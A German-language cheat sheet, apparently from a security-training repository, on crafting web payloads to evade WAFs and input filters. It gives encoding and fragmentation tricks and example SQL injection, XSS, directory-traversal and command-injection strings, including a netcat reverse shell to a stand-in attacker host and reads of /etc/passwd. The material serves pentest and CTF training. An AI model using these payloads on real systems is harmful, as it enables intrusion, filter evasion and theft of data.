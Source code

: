 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.

---

## Inhaltsverzeichnis
- [Typische Encoding-Techniken](#typische-encoding-techniken)
- [Evasion-Techniken bei WAF / Inputfilter](#evasion-techniken-bei-waf--inputfilter)
- [Keywords fragmentieren](#keywords-fragmentieren)
- [Zeitbasierte Payloads (blind testing)](#zeitbasierte-payloads-blind-testing)
- [Beispiele nach Angriffsart](#beispiele-nach-angriffsart)
- [Hinweise](#hinweise)
- [Nützliche Tools](#nützliche-tools)
- [Haftungsausschluss](#haftungsausschluss)

---


## Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`

---

### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```

---

### 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<script>alert(1)</script>
```
Oder
```html
<svg /onload=String.fromCharCode(97,108,101,114,116)(1)>
```

---

## Evasion-Techniken bei WAF / Inputfilter
### Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

| Technik                    | Beispiel              |
| -------------------------- | --------------------- |
| **Splitting**              | `<scr<script>ipt>`    |
| **Whitespace Tricks**      | `/bin/ba$IFS$IFSsh`   |
| **Keyword Fragmentierung** | `UNION/**/SELECT`     |
| **Comments**               | `ec/*x*/ho test`      |
| **Case Switching**         | `SeLeCt * FrOm users` |

---

## Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```

---

## Beispiele nach Angriffsart
### SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))

### Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```

### Cross-Site Scripting (XSS)

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
<svg/onload=alert(document.domain)>
```

### Directory Traversal / LFI

```bash
../../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=index.php
```

---

## Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Custom-Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie `wfuzz`, `ffuf`, `sqlmap` für Automatisierung.
- Viele WAFs prüfen nur Signaturen -> ungewöhnliche Kodierungen oder Fragmentierungen helfen oft.

---

## Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [⚡ SecLists (Payload Collections)](https://github.com/danielmiessler/SecLists?utm_source=chatgpt.com)
- [🔎 FuzzDB (Web Fuzzing Payloads)](https://github.com/fuzzdb-project/fuzzdb?utm_source=chatgpt.com)


----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

